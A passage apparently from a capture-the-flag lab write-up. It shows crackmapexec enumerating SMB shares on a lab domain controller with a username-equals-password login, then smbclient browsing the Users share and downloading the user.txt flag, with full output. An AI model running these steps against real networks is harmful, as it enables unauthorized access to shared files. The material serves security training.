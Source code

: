 `crackmapexec smb 192.168.56.128 -u 'ybob317' -p 'ybob317' --shares`:
```
SMB         192.168.56.128  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.56.128  445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317 
SMB         192.168.56.128  445    DC01             [*] Enumerated shares
SMB         192.168.56.128  445    DC01             Share           Permissions     Remark
SMB         192.168.56.128  445    DC01             -----           -----------     ------
SMB         192.168.56.128  445    DC01             ADMIN$                          Remote Admin
SMB         192.168.56.128  445    DC01             backup                          
SMB         192.168.56.128  445    DC01             C$                              Default share
SMB         192.168.56.128  445    DC01             IPC$            READ            Remote IPC
SMB         192.168.56.128  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.56.128  445    DC01             SYSVOL          READ            Logon server share 
SMB         192.168.56.128  445    DC01             Users           READ ←
```

`smbclient -U 'ybob317' --password 'ybob317' //192.168.56.128/Users`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu Jul  4 18:48:22 2024
  ..                                DHS        0  Mon Jun 17 13:42:50 2024
  admin                               D        0  Thu Jul  4 18:49:01 2024
  Administrator                       D        0  Sat Jun 15 15:56:40 2024
  All Users                       DHSrn        0  Sat May  8 04:26:16 2021
  Default                           DHR        0  Sat Jun 15 22:51:08 2024
  Default User                    DHSrn        0  Sat May  8 04:26:16 2021
  desktop.ini                       AHS      174  Sat May  8 04:14:03 2021
  Public                             DR        0  Sat Jun 15 13:54:32 2024
  ybob317                             D        0  Mon Jun 17 13:24:32 2024 ←

                12942591 blocks of size 4096. 10958582 blocks available
smb: \> cd ybob317
smb: \ybob317\> dir
  .                                   D        0  Mon Jun 17 13:24:32 2024
  ..                                 DR        0  Thu Jul  4 18:48:22 2024
  Desktop                            DR        0  Mon Jun 17 13:45:32 2024 ←
  Documents                          DR        0  Mon Jun 17 13:24:32 2024
  Downloads                          DR        0  Mon Jun 17 13:24:32 2024
  NTUSER.DAT                        AHn   262144  Mon Sep  2 17:39:01 2024
  ntuser.dat.LOG1                   AHS    81920  Mon Jun 17 13:24:29 2024
  ntuser.dat.LOG2                   AHS        0  Mon Jun 17 13:24:29 2024
  NTUSER.DAT{3e6aec0f-2b8b-11ef-bb89-080027df5733}.TM.blf    AHS    65536  Mon Jun 17 13:24:54 2024
  NTUSER.DAT{3e6aec0f-2b8b-11ef-bb89-080027df5733}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Mon Jun 17 13:24:29 2024
  NTUSER.DAT{3e6aec0f-2b8b-11ef-bb89-080027df5733}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Mon Jun 17 13:24:29 2024

                12942591 blocks of size 4096. 10958582 blocks available
smb: \ybob317\> cd Desktop\
smb: \ybob317\Desktop\> dir
  .                                  DR        0  Mon Jun 17 13:45:32 2024
  ..                                  D        0  Mon Jun 17 13:24:32 2024
  desktop.ini                       AHS      282  Mon Jun 17 13:24:32 2024
  user.txt                            A       32  Wed Jun 12 07:54:32 2024 ←

                12942591 blocks of size 4096. 10958582 blocks available
smb: \ybob317\Desktop\> get user.txt 
getting file \ybob317\Desktop\user.txt of size 32 as user.txt (7.8 KiloBytes/sec) (average 7.8 KiloBytes/sec) ←
smb: \ybob317\Desktop\> exit
```